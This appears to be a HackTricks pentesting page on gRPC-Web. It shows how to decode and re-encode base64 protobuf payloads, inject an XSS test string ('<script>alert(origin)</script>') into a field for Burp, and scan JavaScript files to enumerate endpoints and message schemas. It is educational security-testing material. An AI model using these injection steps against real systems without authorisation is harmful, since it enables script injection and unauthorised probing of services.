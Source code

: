 # Pentesting gRPC-Web

{{#include ../banners/hacktricks-training.md}}

## **Manipulating gRPC-Web Payloads**

gRPC-Web uses Content-Type: `application/grpc-web-text` in requests which is kind of protobuf in base64 encoded form, you can use [gprc-coder](https://github.com/nxenon/grpc-pentest-suite) tool ,and you can also install its [Burp Suite Extension](https://github.com/nxenon/grpc-pentest-suite).

### **Manual with gGRPC Coder Tool**

1. First decode the payload:

```bash
echo "AAAAABYSC0FtaW4gTmFzaXJpGDY6BVhlbm9u" | python3 grpc-coder.py --decode --type grpc-web-text | protoscope > out.txt
```

2. Edit the content of decoded payload

```
nano out.txt
2: {"Amin Nasiri Xenon GRPC"}
3: 54
7: {"<script>alert(origin)</script>"}
```

3. Encode the new payload

```bash
protoscope -s out.txt | python3 grpc-coder.py --encode --type grpc-web-text
```

4. Use output in Burp interceptor:

```
AAAAADoSFkFtaW4gTmFzaXJpIFhlbm9uIEdSUEMYNjoePHNjcmlwdD5hbGVydChvcmlnaW4pPC9zY3JpcHQ+
```

### **Manual with gRPC-Web Coder Burp Suite Extension**

You can use gRPC-Web Coder Burp Suite Extension in [gRPC-Web Pentest Suite](https://github.com/nxenon/grpc-pentest-suite) which is easier. You can read the installation and usage instruction in its repo.

## **Analysing gRPC-Web Javascript Files**

There is at least one Javascript file in every gRPC-Web application. You can analyse the file to find new messages, endpoints and services. Try using [gRPC-Scan](https://github.com/nxenon/grpc-pentest-suite) tool.

1. Download the Javascript gRPC-Web File
2. Scan it with grpc-scan.py:

```bash
python3 grpc-scan.py --file main.js
```

3. Analyse output and test the new endpoints and new services:

```
Output:
Found Endpoints:
  /grpc.gateway.testing.EchoService/Echo
  /grpc.gateway.testing.EchoService/EchoAbort
  /grpc.gateway.testing.EchoService/NoOp
  /grpc.gateway.testing.EchoService/ServerStreamingEcho
  /grpc.gateway.testing.EchoService/ServerStreamingEchoAbort

Found Messages:

grpc.gateway.testing.EchoRequest:
+------------+--------------------+--------------+
| Field Name |     Field Type     | Field Number |
+============+====================+==============+
| Message    | Proto3StringField  | 1            |
+------------+--------------------+--------------+
| Name       | Proto3StringField  | 2            |
+------------+--------------------+--------------+
| Age        | Proto3IntField     | 3            |
+------------+--------------------+--------------+
| IsAdmin    | Proto3BooleanField | 4            |
+------------+--------------------+--------------+
| Weight     | Proto3FloatField   | 5            |
+------------+--------------------+--------------+
| Test       | Proto3StringField  | 6            |
+------------+--------------------+--------------+
| Test2      | Proto3StringField  | 7            |
+------------+--------------------+--------------+
| Test3      | Proto3StringField  | 16           |
+------------+--------------------+--------------+
| Test4      | Proto3StringField  | 20           |
+------------+--------------------+--------------+

grpc.gateway.testing.EchoResponse:
+--------------+--------------------+--------------+
|  Field Name  |     Field Type     | Field Number |
+==============+====================+==============+
| Message      | Proto3StringField  | 1            |
+--------------+--------------------+--------------+
| Name         | Proto3StringField  | 2            |
+--------------+--------------------+--------------+
| Age          | Proto3IntField     | 3            |
+--------------+--------------------+--------------+
| IsAdmin      | Proto3BooleanField | 4            |
+--------------+--------------------+--------------+
| Weight       | Proto3FloatField   | 5            |
+--------------+--------------------+--------------+
| Test         | Proto3StringField  | 6            |
+--------------+--------------------+--------------+
| Test2        | Proto3StringField  | 7            |
+--------------+--------------------+--------------+
| Test3        | Proto3StringField  | 16           |
+--------------+--------------------+--------------+
| Test4        | Proto3StringField  | 20           |
+--------------+--------------------+--------------+
| MessageCount | Proto3IntField     | 8            |
+--------------+--------------------+--------------+

grpc.gateway.testing.ServerStreamingEchoRequest:
+-----------------+-------------------+--------------+
|   Field Name    |    Field Type     | Field Number |
+=================+===================+==============+
| Message         | Proto3StringField | 1            |
+-----------------+-------------------+--------------+
| MessageCount    | Proto3IntField    | 2            |
+-----------------+-------------------+--------------+
| MessageInterval | Proto3IntField    | 3            |
+-----------------+-------------------+--------------+

grpc.gateway.testing.ServerStreamingEchoResponse:
+------------+-------------------+--------------+
| Field Name |    Field Type     | Field Number |
+============+===================+==============+
| Message    | Proto3StringField | 1            |
+------------+-------------------+--------------+

grpc.gateway.testing.ClientStreamingEchoRequest:
+------------+-------------------+--------------+
| Field Name |    Field Type     | Field Number |
+============+===================+==============+
| Message    | Proto3StringField | 1            |
+------------+-------------------+--------------+

grpc.gateway.testing.ClientStreamingEchoResponse:
+--------------+----------------+--------------+
|  Field Name  |   Field Type   | Field Number |
+==============+================+==============+
| MessageCount | Proto3IntField | 1            |
+--------------+----------------+--------------+
```

## References

- [Hacking into gRPC-Web Article by Amin Nasiri](https://infosecwriteups.com/hacking-into-grpc-web-a54053757a45)
- [gRPC-Web Pentest Suite](https://github.com/nxenon/grpc-pentest-suite)

{{#include ../banners/hacktricks-training.md}}



